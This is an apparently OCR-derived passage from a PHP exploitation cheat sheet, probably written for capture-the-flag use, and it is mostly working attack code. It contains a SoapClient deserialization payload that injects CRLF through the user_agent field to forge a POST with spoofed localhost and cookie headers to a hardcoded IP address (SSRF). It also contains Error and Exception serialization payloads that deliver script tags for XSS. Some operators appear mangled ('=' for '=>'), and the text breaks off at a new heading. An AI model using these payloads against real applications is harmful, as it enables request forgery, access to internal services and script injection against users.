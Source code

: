 ```php
Common exp:
<?php
$target = 'http://123.206.216.198/bbb.php';
$post_string = 'a=b&flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' =$target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^^'.$post_string,'uri' ="aaab"));
 
$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;
?>
```

## __toString method for XSS

**Error Conditions of use: **
- php7 version
- In case of error report

```php
<?php
$a = new Error("<script>alert(1)</script>");
$b = serialize($a);
$b = urlencode($b); // Because there are invisible characters, url encode it
echo $b;

// test
echo unserialize(urldecode($b));
```

**Exception usage conditions: **
- Suitable for php5 and 7 versions
- In case of error report

```php
<?php
$a = new Exception("<script>alert(1)</script>");
$b = serialize($a);
$b = urlencode($b); // Because there are invisible characters, url encode it
echo $b;

// test
echo unserialize(urldecode($b));
```
## Instantiate any class
